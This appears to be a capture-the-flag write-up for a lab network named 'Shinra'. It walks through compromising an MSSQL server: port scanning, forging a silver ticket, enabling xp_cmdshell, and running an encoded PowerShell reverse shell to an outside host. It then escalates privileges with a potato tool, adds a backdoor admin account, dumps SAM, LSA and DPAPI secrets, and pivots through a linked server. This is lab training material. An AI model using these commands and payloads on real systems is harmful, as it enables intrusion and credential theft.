

As usual I will start by performing a full scan of the open services on this machine showing that this is the MSSQl server in the tech-stack of the challenge:

```bash
PORT     STATE SERVICE       REASON         VERSION
1433/tcp open  ms-sql-s      syn-ack ttl 64 Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   172.16.11.80:1433: 
|     Target_Name: SHINRA
|     NetBIOS_Domain_Name: SHINRA
|     NetBIOS_Computer_Name: SQL01
|     DNS_Domain_Name: shinra.vl
|     DNS_Computer_Name: sql01.shinra.vl
|     DNS_Tree_Name: shinra.vl
|_    Product_Version: 10.0.17763
|_ssl-date: 2026-03-23T12:52:23+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-23T03:47:40
| Not valid after:  2056-03-23T03:47:40
| MD5:     9fe8 2aa8 1dba cacc 937e 938f cfb7 ff01
| SHA-1:   c2a3 3dc2 7371 c8bd 0196 029c 02ac 7b85 e69b fbd2
| SHA-256: 5fdf df8e 3f66 847c ab96 1565 db28 bc13 6eaa 3c47 d81c 692d dbfe 87b8 1dc4 d233
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQYVl32qBQULxIVE8G7fMAbjANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjYwMzIzMDM0NzQwWhgPMjA1NjAzMjMwMzQ3NDBaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAMp69+3/
| 1dzWlICceq9iqs7PWleGIVeLGifkI3Lshs+vRw2YvtFwXLpzrnlgo/hs5Xv1kRWD
| D4xyv3virUn8Aaa3UYIzMtFBVGcNARlyP1+VMAzfjI9M0zx+Snuq66XbcdE2GStE
| i5hd4x1UIG0jO5Cabx7UEJ+JiLiIF6V/wLn2Vc4/06GW1fZ5vKUAfKSstiN8XKEo
| +U29+wYpdXODUELYHxhrYoI396auEdMhv629SdzOMvZe/9tEPHgra7OrocTqIsba
| vO7prZSJCe7nYBx9udrAuzZ5hHEvlxOkp/O4Hh4mS2LUAphK3W6/mGK0t9kat4nd
| I7CIjAi5zk4BBo0CAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAudKsu2OrZZkDhZ6Q
| /oA42dbvNCmEQohHe3I8ZRwHBG5LDxCVhU7ns68QB2ikKU+hsOcibZ8eW1MxXaoL
| sfRLrNaaCq/w91cTbkRlVSHVqSVWv1VkRaVdJWFhwYrC3iLGbPrLYBmSD8W8ndgq
| nrCBuurYksjDi8ByftLAj4JxXxyvAldqatXop8+8rFz/UNXm5eP6bF5OjD6tiz6p
| ozxW5lpnCX/j+6AIE2u3bB/1QmAL8zCxE4jIYW9z9hEyVlqi9M2Gn3obfiOI0p99
| VLqB3dNeMt1Xba8zvw4WSDa+K9+kAd8Nl8Rr0qLuXpAG85yU7QZqatLLNtyDq0sL
| 1P+RuQ==
|_-----END CERTIFICATE-----
| ms-sql-info: 
|   172.16.11.80:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3389/tcp open  ms-wbt-server syn-ack ttl 64 Microsoft Terminal Services
| ssl-cert: Subject: commonName=sql01.shinra.vl
| Issuer: commonName=sql01.shinra.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2025-11-05T07:10:51
| Not valid after:  2026-05-07T07:10:51
| MD5:     5864 933c 59bc be49 e108 dfec bbec 78be
| SHA-1:   afb9 6e8d 141a d46b 6924 537a c5f9 eb43 1995 05db
| SHA-256: 9453 628d c9eb e5dc 0fae a2c7 e58b 9c57 ecc8 849d 3eb6 d3f6 dafb 86a3 0fc8 bf18
| -----BEGIN CERTIFICATE-----
| MIIC4jCCAcqgAwIBAgIQFm9Q1jSd2JVPHSXvqasEBTANBgkqhkiG9w0BAQsFADAa
| MRgwFgYDVQQDEw9zcWwwMS5zaGlucmEudmwwHhcNMjUxMTA1MDcxMDUxWhcNMjYw
| NTA3MDcxMDUxWjAaMRgwFgYDVQQDEw9zcWwwMS5zaGlucmEudmwwggEiMA0GCSqG
| SIb3DQEBAQUAA4IBDwAwggEKAoIBAQDC5nu+J+w0MyPcD4vUJeFhtl00T1Ud+EMx
| YhW4mWZSFeMJYjCNYRWcEBdXRw0u82GaOdGUc0JxL4kJKyfaLi8Tp4JZWUfDFBYB
| HJK1467f/Cx3nxG1Ks/psuEuC1uEc3MpN4eviorKUdfN9lEp1FY0GhTcmdDytVmL
| KTsAsHiUe+9pK6vg65bHDHEuQ2jZiOxFjrwek8nkwjCryoahHkIIssJ1Ck/brXrk
| o0+uc7cpBfMjVLtk88DQs4H9IrPzeP/Ys/AczyFbaGxPmjOJE0JpoG7P61vPrlZX
| O7JMev4DYTXWjtL3b9ulrUktNfyvkdVp/3rKLowPmdaurPLBQl/RAgMBAAGjJDAi
| MBMGA1UdJQQMMAoGCCsGAQUFBwMBMAsGA1UdDwQEAwIEMDANBgkqhkiG9w0BAQsF
| AAOCAQEAvFSkQdEV4SlDNwFeoEP5D2xVFUx9zpGJK0pZqe99yUTWQTl4h/YW3AH3
| eipkCcewtJ0fG4P0xOA1Dj9HeP31qEiVSxcl4h+VfbG0qTS7gywVAWiSB4/leo+g
| zAEUeouwumsrOhzNBT3sffrT8UVTJrJAmVghm3ZjkGBtdQeKCnGjV9h3wbgStA4p
| Ls7e777DuwGKZUO31ewQCoQt6bFRQ57+FWe3UpyXdtG75sdBSKLcVbJh0Oz9vhAx
| oVjzS7W7BwjBT5JjRDcUXO9jn7YFla9lHibyvoYvCZVYW/lZB2JzU/ffuBAHBwbS
| 7UzvmAUXvBM0rEkcJeBhwjk+iyMmjw==
|_-----END CERTIFICATE-----
|_ssl-date: 2026-03-23T12:52:23+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: SHINRA
|   NetBIOS_Domain_Name: SHINRA
|   NetBIOS_Computer_Name: SQL01
|   DNS_Domain_Name: shinra.vl
|   DNS_Computer_Name: sql01.shinra.vl
|   DNS_Tree_Name: shinra.vl
|   Product_Version: 10.0.17763
|_  System_Time: 2026-03-23T12:52:18+00:00
5985/tcp open  http          syn-ack ttl 64 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
TCP/IP fingerprint:
SCAN(V=7.98%E=4%D=3/23%OT=1433%CT=%CU=%PV=Y%G=N%TM=69C13786%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=109%TI=I%CI=I%TS=A)
SEQ(SP=FE%GCD=1%ISR=100%TI=I%CI=I%TS=A)
OPS(O1=M5B4NNT11NW7%O2=M5B4NNT11NW7%O3=M5B4NNT11NW7%O4=M5B4NNT11NW7%O5=M5B4NNT11NW7%O6=M5B4NNT11)
WIN(W1=7200%W2=7200%W3=7200%W4=7200%W5=7200%W6=7200)
ECN(R=Y%DF=N%TG=40%W=7200%O=M5B4NW7%CC=N%Q=)
T1(R=Y%DF=N%TG=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=Y%DF=N%TG=40%W=0%S=Z%A=S%F=AR%O=%RD=0%Q=)
T3(R=Y%DF=N%TG=40%W=7200%S=O%A=S+%F=AS%O=M5B4NNT11NW7%RD=0%Q=)
T4(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T6(R=Y%DF=N%TG=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=Y%DF=N%TG=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=N)
IE(R=N)

```

# MSSQL

And now I can see the user can login, but maybe not as I expect?

```bash
└─$ netexec mssql 12_hosts.txt -u 'sqlsvc' -p 'firefly_15'
MSSQL       172.16.12.81    1433   SQL02            [*] Windows 10 / Server 2019 Build 17763 (name:SQL02) (domain:shinra-lab.vl)
MSSQL       172.16.12.80    1433   SQL01            [*] Windows 10 / Server 2019 Build 17763 (name:SQL01) (domain:shinra.vl)
MSSQL       172.16.12.81    1433   SQL02            [-] shinra-lab.vl\sqlsvc:firefly_15 (Login failed. The login is from an untrusted domain and cannot be used with Integrated authentication. Please try again with or without '--local-auth')
MSSQL       172.16.12.80    1433   SQL01            [+] shinra.vl\sqlsvc:firefly_15 
Running nxc against 4 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Shinra]
└─$ netexec mssql 11_hosts.txt -u 'sqlsvc' -p 'firefly_15' 
MSSQL       172.16.11.80    1433   SQL01            [*] Windows 10 / Server 2019 Build 17763 (name:SQL01) (domain:shinra.vl)
MSSQL       172.16.11.80    1433   SQL01            [+] shinra.vl\sqlsvc:firefly_15 
Running nxc against 10 targets ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100% 0:00:00

```

And as you see I am not admin, and I see also a linked server which means I need to perform a silver ticket and them move forward:

```bash
L (SHINRA\SqlSvc  guest@master)> enum_links
SRV_NAME           SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE     SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
----------------   ----------------   -----------   ----------------   ------------------   ------------   -------   
172.16.12.81       SQLNCLI            SQL Server    172.16.12.81       NULL                 NULL           NULL      
SQL01\SQLEXPRESS   SQLNCLI            SQL Server    SQL01\SQLEXPRESS   NULL                 NULL           NULL      
Linked Server   Local Login   Is Self Mapping   Remote Login   
-------------   -----------   ---------------   ------------   
SQL (SHINRA\SqlSvc  guest@master)> enum_impersonate
execute as   database   permission_name   state_desc   grantee   grantor   
----------   --------   ---------------   ----------   -------   -------   
SQL (SHINRA\SqlSvc  guest@master)> enum_logins
name            type_desc       is_disabled   sysadmin   securityadmin   serveradmin   setupadmin   processadmin   diskadmin   dbcreator   bulkadmin   
-------------   -------------   -----------   --------   -------------   -----------   ----------   ------------   ---------   ---------   ---------   
sa              SQL_LOGIN                 1          1               0             0            0              0           0           0           0   
BUILTIN\Users   WINDOWS_GROUP             0          0               0             0            0              0           0           0           0   
SQL (SHINRA\SqlSvc  guest@master)> enum_users
UserName             RoleName   LoginName   DefDBName   DefSchemaName       UserID     SID   
------------------   --------   ---------   ---------   -------------   ----------   -----   
dbo                  db_owner   sa          master      dbo             b'1         '   b'01'   
guest                public     NULL        NULL        guest           b'2         '   b'00'   
INFORMATION_SCHEMA   public     NULL        NULL        NULL            b'3         '    NULL   
sys                  public     NULL        NULL        NULL            b'4         '    NULL   
SQL (SHINRA\SqlSvc  guest@master)> enum_owner
Database   Owner   
--------   -----   
master     sa      
tempdb     sa      
model      sa      
msdb       sa      
SQL (SHINRA\SqlSvc  guest@master)> 

```

Now I had an idea, to craft a Silver ticket to access the MSSQL service as Admin and enable the XP_CMDSHELL.

```bash
$ pypykatz crypto nt "firefly_15"
4af3cd4f2c33e211e13080db55e4641b
                                                                                                                                                               
┌──(user㉿kali-almi)-[~/Downloads/Shinra]
└─$ impacket-ticketer -nthash 4af3cd4f2c33e211e13080db55e4641b -domain-sid S-1-5-21-710044815-4051228726-3913508627 -domain shinra.vl -spn MSSQLSvc/sql01.shinra.vl Administrator
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for shinra.vl/Administrator
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncTGSRepPart
[*] Saving ticket in Administrator.ccache

```

And now I can get access as admin :

```bash
─$ impacket-mssqlclient Administrator@sql01.shinra.vl -k -no-pass -windows-auth                                                        
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (SHINRA.VL\Administrator  dbo@master)> 
SQL (SHINRA.VL\Administrator  dbo@master)> 


```

And enable the XP_CMDShell and get a shell baby!

```bash
QL (SHINRA.VL\Administrator  dbo@master)> enable_xp_cmdshell
INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(SQL01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
SQL (SHINRA.VL\Administrator  dbo@master)> xp_cmdshell 'ipconfig'
ERROR(SQL01\SQLEXPRESS): Line 1: Incorrect syntax near 'ipconfig'.
SQL (SHINRA.VL\Administrator  dbo@master)> xp_cmdshell "ipconfig"
output                                                 
----------------------------------------------------   
NULL                                                   
Windows IP Configuration                               
NULL                                                   
NULL                                                   
Ethernet adapter Internal-2:                           
NULL                                                   
   Connection-specific DNS Suffix  . :                 
   IPv4 Address. . . . . . . . . . . : 172.16.12.80    
   Subnet Mask . . . . . . . . . . . : 255.255.255.0   
   Default Gateway . . . . . . . . . :                 
NULL                                                   
Ethernet adapter Internal-1:                           
NULL                                                   
   Connection-specific DNS Suffix  . :                 
   IPv4 Address. . . . . . . . . . . : 172.16.11.80    
   Subnet Mask . . . . . . . . . . . : 255.255.255.0   
   Default Gateway . . . . . . . . . : 172.16.11.20    
NULL                                                   
SQL (SHINRA.VL\Administrator  dbo@master)> xp_cmdshell "JABFAHIAcgBvAHIAVgBpAGUAdwA9ACIATgBvAHIAbQBhAGwAVgBpAGUAdwAiADsAJABFAHIAcgBvAHIAQQBjAHQAaQBvAG4AUAByAGUAZgBlAHIAZQBuAGMAZQA9ACIAQwBvAG4AdABpAG4AdQBlACIAOwAkAGMAPQBOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA3ADIALgAxADYALgAxADEALgAyADAAIgAsADQANAA0ADQAKQA7ACQAcwA9ACQAYwAuAEcAZQB0AFMAdAByAGUAYQBtACgAKQA7AFsAYgB5AHQAZQBbAF0AXQAkAGIAPQAwAC4ALgA2ADUANQAzADUAfAAlAHsAMAB9ADsAdwBoAGkAbABlACgAKAAkAGkAPQAkAHMALgBSAGUAYQBkACgAJABiACwAMAAsACQAYgAuAEwAZQBuAGcAdABoACkAKQAtAG4AZQAwACkAewAkAGQAPQAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AFMAdAByAGkAbgBnACgAJABiACwAMAAsACQAaQApADsAdAByAHkAewAkAG8APQBpAGUAeAAgACQAZAAgADIAPgAmADEAIAAzAD4AJgAxACAANAA+ACYAMQAgADUAPgAmADEAIAA2AD4AJgAxAHwATwB1AHQALQBTAHQAcgBpAG4AZwB9AGMAYQB0AGMAaAB7ACQAbwA9ACQAXwB8AE8AdQB0AC0AUwB0AHIAaQBuAGcAfQBpAGYAKABbAHMAdAByAGkAbgBnAF0AOgA6AEkAcwBOAHUAbABsAE8AcgBFAG0AcAB0AHkAKAAkAG8AKQApAHsAJABvAD0AIgAiAH0AJABwAD0AIgBQAFMAIAAiACsAKABwAHcAZAApAC4AUABhAHQAaAArACIAPgAgACIAOwBbAGIAeQB0AGUAWwBdAF0AJABzAGIAPQAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBBAFMAQwBJAEkAKQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAbwArACQAcAApADsAJABzAC4AVwByAGkAdABlACgAJABzAGIALAAwACwAJABzAGIALgBMAGUAbgBnAHQAaAApADsAJABzAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAC4AQwBsAG8AcwBlACgAKQA="
output                                                                             

```

&nbsp;



And now since I have impersonate rights I might be able to abuse it, but i need to obfuscate the tool firstly!

```bash
PS C:\Temp> 
PS C:\Temp> wget 172.16.11.20:8888/sigma.exe -outfile sigma.exe
PS C:\Temp> ls


    Directory: C:\Temp


Mode                LastWriteTime         Length Name                                                                  
----                -------------         ------ ----                                                                  
-a----        3/26/2026  11:45 AM          70656 sigma.exe                                                             


PS C:\Temp> ./sigma.exe "cmd /c net user yovecio Coglione1! /add && net localgroup administrators yovecio /add"     
[+] Starting Pipe Server...
[+] Created Pipe Name: \\.\pipe\SigmaPotato\pipe\epmapper
[+] Pipe Connected!
[+] Impersonated Client: NT AUTHORITY\NETWORK SERVICE
[+] Searching for System Token...
[+] PID: 908 | Token: 0x616 | User: NT AUTHORITY\SYSTEM
[+] Found System Token: True
[+] Duplicating Token...
[+] New Token Handle: 996
[+] Current Command Length: 85 characters
[+] Creating Process via 'CreateProcessAsUserW'
[+] Process Started with PID: 6336

[+] Process Output:
The command completed successfully.

The command completed successfully.


```

And now I can get a RDP session on the machine and grab another flag:

```bash
PS C:\Windows\system32> cd ..
PS C:\Windows> cd ..
PS C:\> cd .\Users\Administrator\Desktop\
PS C:\Users\Administrator\Desktop> cat .\flag.txt
SHINRA{170e2bb54f880a9039543a4f667e1789}
PS C:\Users\Administrator\Desktop>
```

In the meantime, to make my life easier I will enable SMB so I can dump everything from DPAPI secrets and disable the local account token filtering policy:

```bash
PS C:\Users\Administrator\Desktop> Enable-NetFirewallRule -DisplayGroup "File and Printer Sharing"
PS C:\Users\Administrator\Desktop>


PS C:\Users\Administrator\Desktop> New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System" -Name "LocalAccountTokenFilterPolicy" -Value 1 -PropertyType DWord -Force


LocalAccountTokenFilterPolicy : 1
PSPath                        : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Curre
                                ntVersion\Policies\System
PSParentPath                  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\Curre
                                ntVersion\Policies
PSChildName                   : System
PSDrive                       : HKLM
PSProvider                    : Microsoft.PowerShell.Core\Registry


PS C:\Users\Administrator\Desktop>


```

But surprisingly I don't see much more?

```bash
─$ netexec smb 172.16.12.80 -u 'yovecio' -p 'Coglione1!' --sam --lsa --dpapi --local-auth
SMB         172.16.12.80    445    SQL01            [*] Windows 10 / Server 2019 Build 17763 x64 (name:SQL01) (domain:SQL01) (signing:False) (SMBv1:None)
SMB         172.16.12.80    445    SQL01            [+] SQL01\yovecio:Coglione1! (Pwn3d!)
SMB         172.16.12.80    445    SQL01            [*] Dumping SAM hashes
SMB         172.16.12.80    445    SQL01            Administrator:500:aad3b435b51404eeaad3b435b51404ee:427528293a5c4941257eccbcb186052c:::
SMB         172.16.12.80    445    SQL01            Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.12.80    445    SQL01            DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         172.16.12.80    445    SQL01            WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:475186fb8fa4d154d702a87967d5971c:::
SMB         172.16.12.80    445    SQL01            yovecio:1001:aad3b435b51404eeaad3b435b51404ee:71ddafa4193caa4376aae61bcfeaf9d5:::
SMB         172.16.12.80    445    SQL01            [+] Added 5 SAM hashes to the database
SMB         172.16.12.80    445    SQL01            [+] Dumping LSA secrets
SMB         172.16.12.80    445    SQL01            SHINRA.VL/SqlSvc:$DCC2$10240#SqlSvc#ed28c4560495e1c5612807830112310e: (2026-03-26 03:49:37)
SMB         172.16.12.80    445    SQL01            SHINRA\SQL01$:aes256-cts-hmac-sha1-96:479dcb23ee9eb5db244368d1b9b67728c3fbb8f895a8cac0aac11eebc86bf93e
SMB         172.16.12.80    445    SQL01            SHINRA\SQL01$:aes128-cts-hmac-sha1-96:cd0c4f60c86b01ac5fb582bcdb9187a0
SMB         172.16.12.80    445    SQL01            SHINRA\SQL01$:des-cbc-md5:b01aa7badc972626
SMB         172.16.12.80    445    SQL01            SHINRA\SQL01$:plain_password_hex:adb9288831d92da861d3cdd89e33b2e323267202f8b463a2241ff25ec2bde4f518c75de60dc3ba6fb2a5b2ec3365d402fceacbeea72c112c63be412e4c3b66a6226bcc8d9b3b289963abad2f70f5060eb01b53f168110d4e63f3b8d241133ceb870977330fef2b38cbd822a9bc1355a857308a5422f37e7752ddce949476b0f5e6d5b2b4b05c65a44350bc5b85660b29a9d04ad053fb040ded9211210916444eba0e02d3f03e0abd0cb8c77f10233782729b8fa21ab6b65ae8a00fcbcc59d7e686ed1fd878dc31d86b9133e9e0d919dc48cc54cdbf20a8e5636d3f89b090ec109caddaf7c9234fa6274cb8ba5618c684
SMB         172.16.12.80    445    SQL01            SHINRA\SQL01$:aad3b435b51404eeaad3b435b51404ee:717754d1c656663ab65c81bc922a21af:::
SMB         172.16.12.80    445    SQL01            dpapi_machinekey:0x1082898ee64ecacf3d3ee27bc83dc3c28b6d2f0a
dpapi_userkey:0x308bd023858c4c1b41b4509e2bc0b9e1ea350562
SMB         172.16.12.80    445    SQL01            SHINRA\SqlSvc:firefly_15
SMB         172.16.12.80    445    SQL01            [+] Dumped 8 LSA secrets to /home/user/.nxc/logs/lsa/172.16.12.80_None_2026-03-26_130836.secrets and /home/user/.nxc/logs/lsa/172.16.12.80_None_2026-03-26_130836.cached
SMB         172.16.12.80    445    SQL01            [*] Collecting DPAPI masterkeys, grab a coffee and be patient...
SMB         172.16.12.80    445    SQL01            [+] Got 16 decrypted masterkeys. Looting secrets...
                                                                                                                               
```

# Taking a step back

Here I was lost and I almost missed it(a dude gave me a hint on that) here I totally missed that this server had a Link to the LAB SQL02 machine:

```bash
──(user㉿kali-almi)-[~/Downloads/Tools/evil-winrm-py]
└─$ impacket-mssqlclient Administrator@sql01.shinra.vl -hashes :427528293a5c4941257eccbcb186052c -windows-auth
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(SQL01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server 2019 RTM (15.0.2000)
[!] Press help for extra shell commands
SQL (SQL01\Administrator  dbo@master)> enum_links
SRV_NAME           SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE     SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
----------------   ----------------   -----------   ----------------   ------------------   ------------   -------   
172.16.12.81       SQLNCLI            SQL Server    172.16.12.81       NULL                 NULL           NULL      
SQL01\SQLEXPRESS   SQLNCLI            SQL Server    SQL01\SQLEXPRESS   NULL                 NULL           NULL      
Linked Server      Local Login            Is Self Mapping   Remote Login   
----------------   --------------------   ---------------   ------------   
172.16.12.81       NULL                                 1   NULL           
172.16.12.81       SQL01\Administrator                  0   external       
172.16.12.81       SHINRA\Administrator                 0   external       
SQL01\SQLEXPRESS   NULL                                 1   NULL           
SQL (SQL01\Administrator  dbo@master)> 


```

I wasn't able to abuse it before on the SQLSVC account but as local admin I can do whatever I want!

```bash
SQL (SQL01\Administrator  dbo@master)> use_link 172.16.12.81
ERROR(SQL01\SQLEXPRESS): Line 1: Incorrect syntax near '172.16'.
SQL (SQL01\Administrator  dbo@master)> use_link "172.16.12.81"
SQL >"172.16.12.81" (external  guest@master)> enum_db
name     is_trustworthy_on   
------   -----------------   
master                   0   
tempdb                   0   
model                    0   
msdb                     1   
SQL >"172.16.12.81" (external  guest@master)> enum_
enum_db           enum_impersonate  enum_links        enum_logins       enum_owner        enum_users        
SQL >"172.16.12.81" (external  guest@master)> enum_impersonate
execute as   database   permission_name   state_desc   grantee   grantor   
----------   --------   ---------------   ----------   -------   -------   
SQL >"172.16.12.81" (external  guest@master)> enum_users
UserName                            RoleName   LoginName                           DefDBName   DefSchemaName       UserID                                   SID   
---------------------------------   --------   ---------------------------------   ---------   -------------   ----------   -----------------------------------   
##MS_PolicyEventProcessingLogin##   public     ##MS_PolicyEventProcessingLogin##   master      dbo             b'5         '   b'5681cce7a1f1ff41b2f95ced7d792e70'   
dbo                                 db_owner   sa                                  master      dbo             b'1         '                                 b'01'   
guest                               public     NULL                                NULL        guest           b'2         '                                 b'00'   
INFORMATION_SCHEMA                  public     NULL                                NULL        NULL            b'3         '                                  NULL   
sys                                 public     NULL                                NULL        NULL            b'4         '                                  NULL   
SQL >"172.16.12.81" (external  guest@master)> enum_logins
name                                 type_desc       is_disabled   sysadmin   securityadmin   serveradmin   setupadmin   processadmin   diskadmin   dbcreator   bulkadmin   
----------------------------------   -------------   -----------   --------   -------------   -----------   ----------   ------------   ---------   ---------   ---------   
sa                                   SQL_LOGIN                 0          1               0             0            0              0           0           0           0   
##MS_PolicyEventProcessingLogin##    SQL_LOGIN                 1          0               0             0            0              0           0           0           0   
##MS_PolicyTsqlExecutionLogin##      SQL_LOGIN                 1          0               0             0            0              0           0           0           0   
SQL02\Administrator                  WINDOWS_LOGIN             0          1               0             0            0              0           0           0           0   
NT SERVICE\SQLWriter                 WINDOWS_LOGIN             0          1               0             0            0              0           0           0           0   
NT SERVICE\Winmgmt                   WINDOWS_LOGIN             0          1               0             0            0              0           0           0           0   
NT Service\MSSQL$SQLEXPRESS          WINDOWS_LOGIN             0          1               0             0            0              0           0           0           0   
BUILTIN\Users                        WINDOWS_GROUP             0          0               0             0            0              0           0           0           0   
NT AUTHORITY\SYSTEM                  WINDOWS_LOGIN             0          0               0             0            0              0           0           0           0   
NT SERVICE\SQLTELEMETRY$SQLEXPRESS   WINDOWS_LOGIN             0          0               0             0            0              0           0           0           0   
external                             SQL_LOGIN                 0          0               0             0            0              0           0           0           0   
SQL >"172.16.12.81" (external  guest@master)> enum_owner
Database   Owner   
--------   -----   
master     sa      
tempdb     sa      
model      sa      
msdb       sa      
SQL >"172.16.12.81" (external  guest@master)> 


```

Now everything is void here so I suspect I need to grab another shell here and to do so I will move on to the SQL02 page.

&nbsp;

&nbsp;